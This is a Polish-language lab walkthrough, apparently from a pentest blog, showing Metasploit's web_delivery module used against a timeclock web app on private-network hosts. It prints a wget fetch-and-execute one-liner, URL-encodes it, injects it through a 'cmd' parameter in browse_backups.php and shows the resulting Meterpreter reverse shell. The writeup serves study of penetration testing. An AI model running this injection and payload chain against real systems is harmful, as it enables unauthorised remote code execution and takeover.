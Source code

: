 ```console
msf6 exploit(multi/script/web_delivery) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 172.16.1.10:4444
msf6 exploit(multi/script/web_delivery) > [*] Using URL: http://0.0.0.0:8080/L495CA
[*] Local IP: http://172.16.1.10:8080/L495CA
[*] Server started.
[*] Run the following command on the target machine:
wget -qO o6OY7FJX --no-check-certificate http://172.16.1.10:8080/L495CA; chmod +x o6OY7FJX; ./o6OY7FJX& disown
```
Dostajemy link, który trzeba przekonwertować na kod URL. można to zrobić [tutaj](https://www.urldecoder.org/)
{: .text-justify}
<div class="notice--primary" markdown="1">
Tekst surowy:

wget -qO o6OY7FJX --no-check-certificate http://172.16.1.10:8080/L495CA; chmod +x o6OY7FJX; ./o6OY7FJX& disown
{: .notice--info}
</div>
<div class="notice--primary" markdown="1">
Tekst zakodowany do formatu URL:
{: .text-justify}

wget%20-qO%20o6OY7FJX%20--no-check-certificate%20http%3A%2F%2F172.16.1.10%3A8080%2FL495CA%3B%20chmod%20%2Bx%20o6OY7FJX%3B%20.%2Fo6OY7FJX%26%20disown
{: .notice--info}
</div>
<div class="notice--primary" markdown="1">
Całość, czyli link+komenda wklejamy do przeglądarki:

http://172.16.1.167:8115//timeclock/backup/browse_backups.php?cmd=wget%20-qO%20o6OY7FJX%20--no-check-certificate%20http%3A%2F%2F172.16.1.10%3A8080%2FL495CA%3B%20chmod%20%2Bx%20o6OY7FJX%3B%20.%2Fo6OY7FJX%26%20disown
{: .notice--info}
</div>
Jeżeli wszystko poszło dobrze, powinniśmy mieć dostęp do **Shella**.
{: .text-justify}
```console
msf6 exploit(multi/script/web_delivery) >
[*] 172.16.1.167     web_delivery - Delivering Payload (207 bytes)
[*] Sending stage (984904 bytes) to 172.16.1.167
[*] Meterpreter session 1 opened (172.16.1.10:4444 -> 172.16.1.167:60164) at 2021-09-01 16:25:03 +0200

msf6 exploit(multi/script/web_delivery) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                                       Connection
  --  ----  ----                   -----------                                                       ----------
  1         meterpreter x86/linux  www-data @ c2422a638c6f (uid=33, gid=33, euid=33, egid=33) @ 172  172.16.1.10:4444 -> 172.16.1.167:60164 (172.16.1.167)
                                   .31.10.17

```
Jeżeli weszliśmy na konsole (session 1) **Meterpretera**, możemy zamknąć przeglądarkę. Kod eksploita już tam siedzi. :smiley: Dzięki komendzie *arp* możemy zobaczyć "skeszowane" arpy.
{: .text-justify}
```
```